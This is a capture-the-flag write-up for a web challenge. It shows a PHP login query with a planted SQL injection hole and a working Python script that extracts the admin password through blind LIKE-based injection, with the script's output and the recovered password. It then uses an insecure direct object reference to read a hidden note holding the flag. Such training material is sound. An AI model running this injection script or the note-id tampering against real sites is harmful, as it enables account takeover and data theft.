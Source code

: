 # web2

For this challenge, we are given a website.  Opening the link takes us to this page:

![image](img/webpage.png)

Looks like we are presented with a login. We are also given the source code to this webpage, so maybe we can do something with that.

Looking through the source code, we see a comment mentioning a vulnerable piece of code:

```php
    // XXX: this is vuln to SQL injection!
    $query_str = "SELECT id, username, password FROM users WHERE username='$username';";
    echo '* <b>Query:</b> ' . htmlentities($query_str) . '<br>'
```

This piece of code is vulnerable to something known as a SQL injection.  With a specially crafted username, we can escape the `$username` and add on to the query with our own SQL code.  But what can we add onto the query in order login? 

The answer is the `LIKE` operator.  According to w3schools:
> The LIKE operator is used in a WHERE clause to search for a specified pattern in a column.
>
> There are two wildcards often used in conjunction with the LIKE operator:
>
> % - The percent sign represents zero, one, or multiple characters
> _ - The underscore represents a single character

So if we can make `username='$username'` evaluate to true, and then tack on a `and password like 'x%'`, and just iterate all possible characters for `x`, we can get the first character of the password for said username.  We can then repeat that process for every character until we get the full password.

After some trial and error, we can figure out that the username we want to steal from is `admin`.  and so the query we want to inject is `admin' and password like 'x%`

We can write a simple python script to automate this process:

```python
import requests
import string

url_val = "http://ctf-league.osusec.org:8080/login.php"
obj = {'password':'', 'username':''}
failed = "password is incorrect"
pwd = ''

while True:
    for i in string.printable:
        obj['username'] = "admin' and password like '" + pwd + i + "%"

        x = requests.post(url = url_val, data = obj, timeout=2.5)

        if(x.text.find(failed) > 0):
            pwd = pwd + i
            print(pwd)
            break

```

Running this script we get the password for admin:
```
$ python3 pwn.py
k
kl
kl6
kl62
kl62j
kl62jd
kl62jdi
kl62jdic
kl62jdicu
kl62jdicu3
kl62jdicu31
kl62jdicu31a
kl62jdicu31ad
kl62jdicu31ad%
```
The password is `kl62jdicu31ad`

After logging in, we are greeted with another page.  This one seems to be some sort of note maker:

![img](img/notes.png)

We are told to look into "Insecure direct object references", which is a type of access control vulnerability that happens in applications that use user supplied input directly.  

Opening a note, we can see how we could abuse that:

![img](img/note_6.png)

What if we directly modified the url to point us to a note that would otherwise be inaccesible?  Let's try setting it to `1`:

![img](img/note_1.png)

Next note contains the flag! Changing it to `2` and we get our flag:

![img](img/flag.png)

```
flag{r3m3mber_t0-g00gle_wh3n_f@cing_a_d1fficult-challenge!}
```
